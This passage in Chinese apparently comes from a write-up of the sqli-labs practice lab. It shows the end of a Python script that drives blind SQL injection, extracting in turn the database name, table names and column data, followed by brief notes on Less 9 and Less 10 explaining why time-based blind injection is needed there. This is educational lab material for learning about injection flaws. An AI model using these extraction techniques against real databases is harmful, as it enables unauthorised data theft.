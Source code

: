 ```
                        break
                print("{}表的{}列第{}条数据的值为:".format(table_name, column_name_list[i], j + 1), data)

if __name__ == '__main__':
    length=get_database_name_length()  #获取库名长度
    #length=8
    database=get_database_name(length) #获取库名
    #database='security'
    table_num=get_tables_num(database)  #获取表数量
    #table_num=4
    table_name_length_list=get_tables_name_length(database,table_num) #获取各个表名长度
    #table_name_length_list=[6,8,7,5]
    table_name_list=get_table_name(database,table_num,table_name_length_list) #获取各个表名
    #table_name_list=['emails','users','referers','uagents'] #为测试数据改换了表名的顺序
    get_column_num(database,table_name_list)
```

## Less 9

通过页面可以发现不管输入什么都是返回 you are in..

不存在True和False回显，所以不能用布尔盲注

要用时间盲注

## Less 10

发现页面和Less 9一样无论输入什么都是一样的回显

因此还是只能使用时间盲注
